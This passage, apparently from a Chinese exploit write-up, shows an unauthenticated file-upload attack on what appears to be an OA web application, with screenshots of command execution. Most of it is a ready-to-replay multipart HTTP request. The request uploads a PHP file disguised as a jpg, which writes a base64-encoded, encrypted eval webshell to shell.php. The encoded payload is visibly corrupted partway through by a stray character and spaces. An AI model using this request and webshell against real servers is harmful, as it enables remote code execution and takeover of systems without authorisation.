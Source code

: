```plain
```

![202203011918191](https://img.yatjay.top/md/202203261028999.png)

执行命令“ipconfig”:

![202203011918125](https://img.yatjay.top/md/202203261028663.png)

2.getshell

前台任意文件上传漏洞：抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件（木马文件执行写入文件操作）

```plain
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close
Content-Length: 1398
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"
2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"
123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"
1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg
<?php
$fp = fopen('shell.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwppZiAoaXNzZXQoJF9HRVRbJ3Bhc3MnXSkpCnsKICAgICRrZXk9c3Vic3RyKG1kNSh1bmlxaWQocmFuZCgpKSksMTYpOwogICAgJF9TRVNTSU9OWydrJ109JGtleTsKICAgIHByaW50ICRrZXk7Cn0KZWxzZQp7CiAgICAka2V5PSRfU0VTU0lPTlsnayddOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC  ÿ
4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJHApIHtldmFsKCRwLiIiKTt9fQoJQG5ldyBDKCRwYXJhbXMpOwp9Cj8+");
fwrite($fp, $a);
fclose($fp);
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

![202203011919924](https://img.yatjay.top/md/202203261029466.png)

查看生成的图片：
